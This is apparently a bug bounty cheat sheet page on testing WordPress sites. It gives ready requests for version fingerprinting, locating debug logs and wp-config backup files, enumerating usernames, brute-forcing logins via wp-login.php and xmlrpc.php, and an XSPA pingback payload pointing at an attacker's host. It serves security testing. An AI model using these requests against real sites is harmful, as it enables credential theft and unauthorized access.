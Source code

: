 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/WordPress.md#introduction)

What would you do if you came across a website that uses WordPress?

## How to Detect

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/WordPress.md#how-to-detect)

If you visit `https://target.com` and see the source code, you will see the links to themes and plugins from WordPress. Or you can visit `https://target.com/wp-login.php`, it is the WordPress login admin page

1. Find the related CVE by checking the core, plugins, and theme version

- How to find the wordpress version

```
https://target.com/feed
https://target.com/?feed=rss2
```

- How to find the plugin version

```
https://target.com/wp-content/plugins/PLUGINNAME/readme.txt
https://target.com/wp-content/plugins/PLUGINNAME/readme.TXT
https://target.com/wp-content/plugins/PLUGINNAME/README.txt
https://target.com/wp-content/plugins/PLUGINNAME/README.TXT
```

> or change readme.txt to changelog.txt or readme.md

- How to find the theme version

```
https://target.com/wp-content/themes/THEMENAME/style.css
https://target.com/wp-content/themes/THEMENAME/readme.txt (If they have readme file)
```

If you found outdated core / plugins / themes, find the exploit at [https://wpscan.com](https://wpscan.com)

2. Finding log files

```
http://target.com/wp-content/debug.log
```

3. Finding backup file wp-config

```
http://target.com/.wp-config.php.swp
http://target.com/wp-config.inc
http://target.com/wp-config.old
http://target.com/wp-config.txt
http://target.com/wp-config.html
http://target.com/wp-config.php.bak
http://target.com/wp-config.php.dist
http://target.com/wp-config.php.inc
http://target.com/wp-config.php.old
http://target.com/wp-config.php.save
http://target.com/wp-config.php.swp
http://target.com/wp-config.php.txt
http://target.com/wp-config.php.zip
http://target.com/wp-config.php.html
http://target.com/wp-config.php~
```

4. Get the username on the website

```
http://target.com/?author=1
```

or

```
http://target.com/wp-json/wp/v2/users
http://target.com/?rest_route=/wp/v2/users
```

5. Bruteforce

```
POST /wp-login.php HTTP/1.1
Host: target.com

log=admin&pwd=BRUTEFORCE_IN_HERE&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget.com%2Fwp-admin%2F&testcookie=1
```

or

```
POST /xmlrpc.php HTTP/1.1
Host: target.com

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>admin</value></param> 
<param><value>BRUTEFORCE_IN_HERE</value></param> 
</params> 
</methodCall>
```

6. XSPA in wordpress

```
POST /xmlrpc.php HTTP/1.1
Host: target.com

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://yourip:port</string></value>
</param><param>
<value>
<string>https://target.com></string>
</value>
</param></params>
</methodCall>
```

7. Register enabled

```
http://example.com/wp-login.php?action=register
```

